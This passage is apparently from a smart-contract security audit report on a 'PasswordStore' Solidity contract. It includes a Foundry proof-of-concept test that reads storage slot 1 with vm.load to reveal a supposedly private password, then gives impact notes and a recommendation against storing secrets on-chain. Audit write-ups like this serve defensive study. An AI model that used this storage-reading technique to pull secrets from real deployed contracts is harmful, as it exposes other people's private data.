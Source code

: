 ```solidity
    // By observing the protocol's source code at `PasswordStore.sol`, we notice that `s_password` is the second storage variable declared in the contract. Since storage slots are alloted in the order of declaration in the EVM, its slot value will be '1'
    uint256 S_PASSWORD_STORAGE_SLOT_VALUE = 1;

    // Access the protocol's storage data at slot 1
    bytes32 slotData = vm.load(
        address(passwordStore),
        bytes32(S_PASSWORD_STORAGE_SLOT_VALUE)
    );

    // Converting `bytes` data to `string`
    string memory anyoneCanReadPassword = string(
        abi.encodePacked(slotData)
    );
    // Exposes Victim's password on console
    console.log(anyoneCanReadPassword);
}

```

Make sure to run the test command with `-vv` flag to see the `Logs` in command output.    


## Impact
This vulnerability completely compromises the confidentiality of the protocol and exposes the sensitive private data of the owner of the protocol to everyone on the blockchain.

## Tools Used
Foundry

## Recommendations

All data on the blockchain is public. To store sensitive information, additional encryption or off-chain solutions should be considered. Sensitive and personal data should never be stored on the blockchain in plaintext or weakly encrypted or encoded format. 

# Medium Risk Findings



# Low Risk Findings

## <a id='L-01'></a>L-01. Initialization Timeframe Vulnerability

_Submitted by [dianivanov](/profile/clo3cuadr0017mp08rvq00v4e)._      
				
### Relevant GitHub Links
	